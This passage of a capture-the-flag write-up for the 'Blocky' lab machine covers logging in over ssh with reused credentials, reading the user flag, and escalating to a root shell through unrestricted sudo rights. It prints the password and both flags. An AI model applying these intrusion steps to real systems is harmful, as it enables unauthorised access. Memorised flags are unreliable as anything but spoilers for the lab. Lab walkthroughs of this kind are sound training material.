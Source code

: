 
### ssh
* Let's try to ssh into the box with the credentials we got: `ssh notch@10.10.10.37`
	* Type in the password `8YsqfCTnvxAUeduzjNSXe22`
* Looks like they reused credentials.
* We can `cat user.txt`
	* The user flag is `59fee0977fb60b8a0bc6e41e751f3cd5`
	* Note that you could have also done this with ftp and the same credentials
* Now, we can check sudo priveleges with `sudo -l` and typing in the same password. We get the following output:
```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
* Look's like the user can run anything on the machine as root
* Let's run `sudo sh` and type in the password to get a root shell
* Now we can `cd /` and `cat root.txt`
	* The root flag is `0a9694a5b4d272c694679f7860f1cd5f`
